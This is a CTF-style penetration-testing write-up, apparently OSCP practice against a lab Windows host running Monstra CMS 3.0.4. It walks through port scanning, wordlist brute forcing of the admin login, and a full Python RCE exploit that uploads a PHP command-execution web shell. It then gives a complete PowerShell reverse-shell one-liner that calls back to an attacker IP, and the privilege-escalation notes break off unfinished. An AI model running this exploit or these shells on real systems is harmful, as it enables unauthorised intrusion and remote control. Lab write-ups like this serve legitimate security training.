Nmap scan
```sh
nmap -p- --min-rate 5000 -T4 -Pn 192.168.236.180
Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-21 17:20 IST
Warning: 192.168.236.180 giving up on port because retransmission cap hit (6).
Nmap scan report for 192.168.236.180
Host is up (0.12s latency).
Not shown: 65521 closed tcp ports (reset)
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
443/tcp   open  https
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
5040/tcp  open  unknown
7680/tcp  open  pando-pub
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 17.86 seconds
```

```sh
nmap -sC -sV -T4 -Pn -p 80,135,139,443,445,3389,5040,7680,49664,49665,49666,49667,49668,49669 192.168.236.180
Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-21 17:22 IST
Nmap scan report for 192.168.236.180
Host is up (0.14s latency).

PORT      STATE SERVICE       VERSION
80/tcp    open  http          Apache httpd 2.4.41 ((Win64) OpenSSL/1.1.1c PHP/7.3.10)
|_http-server-header: Apache/2.4.41 (Win64) OpenSSL/1.1.1c PHP/7.3.10
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Mike Wazowski
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
443/tcp   open  ssl/http      Apache httpd 2.4.41 ((Win64) OpenSSL/1.1.1c PHP/7.3.10)
|_http-server-header: Apache/2.4.41 (Win64) OpenSSL/1.1.1c PHP/7.3.10
| tls-alpn: 
|_  http/1.1
|_http-title: Mike Wazowski
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
| http-methods: 
|_  Potentially risky methods: TRACE
|_ssl-date: TLS randomness does not represent time
445/tcp   open  microsoft-ds?
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: MIKE-PC
|   NetBIOS_Domain_Name: MIKE-PC
|   NetBIOS_Computer_Name: MIKE-PC
|   DNS_Domain_Name: Mike-PC
|   DNS_Computer_Name: Mike-PC
|   Product_Version: 10.0.19041
|_  System_Time: 2026-03-21T11:55:36+00:00
| ssl-cert: Subject: commonName=Mike-PC
| Not valid before: 2026-03-20T11:50:08
|_Not valid after:  2026-09-19T11:50:08
|_ssl-date: 2026-03-21T11:55:51+00:00; 0s from scanner time.
5040/tcp  open  unknown
7680/tcp  open  pando-pub?
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2026-03-21T11:55:38
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 178.06 seconds
```

Visiting web server on port 80.



Directory brute forcing.

```sh
ffuf -u http://192.168.236.180/FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -c -fc 400,401,403,404
```


![[Monster3.png]]


Gobuster revealed the `/blog` endpoint, which proved to be significantly more interesting than the initial landing page.



The `/blog` directory provided a treasure trove of information. Most notably, the server was running **Monstra CMS 3.0.4.**

A quick search through searchsploit revealed numerous vulnerabilities for this version:


We clicked on the "sitemap" as shown below and after that clicking on "Login", we were redirected to login page.





Default credentials failed, so I pivoted to creating a custom wordlist using CeWL:

```sh
cewl http://192.168.236.180:80/ | grep -v CeWL > custom-wordlist.txt
```

Using Burp Suite’s Intruder, I captured an authentication request and configured it to brute force the password field with my custom wordlist.



While most invalid credentials returned response length more than 3001, one password stood out with a 3001 length: `wazowski`.



We are in.



cool! now we can use our exploit.

the exploit did not work? so i had to manually fix it -this doesn’t seem in scope for OSCP



**Modified script**

```python3
# Exploit Title: Monstra CMS 3.0.4 - Remote Code Execution (RCE)  
# Date: 05.05.2024  
# Exploit Author: Ahmet Ümit BAYRAM  
# Vendor Homepage: <https://monstra.org/>  
# Software Link: <https://monstra.org/monstra-3.0.4.zip>  
# Version: 3.0.4  
# Tested on: MacOS

import requests  
import random  
import string  
import time  
import re  
import sysif len(sys.argv) < 4:  
    print("Usage: python3 script.py <url> <username> <password>")  
    sys.exit(1)base_url = sys.argv[1]  
username = sys.argv[2]  
password = sys.argv[3]session = requests.Session()  
login_url = f'{base_url}/admin/index.php?id=dashboard'  
login_data = {  
    'login': username,  
    'password': password,  
    'login_submit': 'Log+In'  
}filename = ''.join(random.choices(string.ascii_lowercase + string.digits, k=5))print("Logging in...")  
response = session.post(login_url, data=login_data)if 'Dashboard' in response.text:  
    print("Login successful")  
else:  
    print("Login failed")  
    exit()time.sleep(3)edit_url = f'{base_url}/admin/index.php?id=themes&action=add_chunk'  
response = session.get(edit_url)token_search = re.search(r'input type="hidden" id="csrf" name="csrf" value="(.*?)"', response.text)if token_search:  
    token = token_search.group(1)  
else:  
    print("CSRF token could not be found.")  
    exit()content = '''  
<html>  
<body>  
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">  
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">  
<input type="SUBMIT" value="Execute">  
</form>  
<pre>  
<?php  
if(isset($_GET['cmd']))  
{  
    system($_GET['cmd']);  
}  
?>  
</pre>  
</body>  
</html>  
'''edit_data = {  
    'csrf': token,  
    'name': filename,  
    'content': content,  
    'add_file': 'Save'  
}print("Preparing shell...")  
response = session.post(edit_url, data=edit_data)  
time.sleep(3)if response.status_code == 200:  
    print(f"Your shell is ready: {base_url}/public/themes/default/{filename}.chunk.php")  
else:  
    print("Failed to prepare shell.")
```

Executing the script:
```sh
python3 modified_exploit.py http://monster.pg/blog admin wazowski
```

And we are in.



The exploit successfully created a webshell accessible at the specified URL.



we do a powershell reverse shell from rev shells



```PS
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.45.183',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```





Capture local flag.



**As per PG we should follow other method to get the flag. Before exam please take a look at that.**

### Privilege Escalation
We checked `whoami /priv` but found nothing interesting. Then, we ran winpeas.

Transferring winpeas using certutil didn't work, so we used iwr.



But it was not working. We tried transferring through powershell but still winpeas didn't run.

nothing seems to work here we see XAMPP version. As we know there is xampp in C drive.



 Checking `C:\xampp\properties.ini` showed XAMPP version 7.3.10. So we looked for searchsploit and found nearest version.




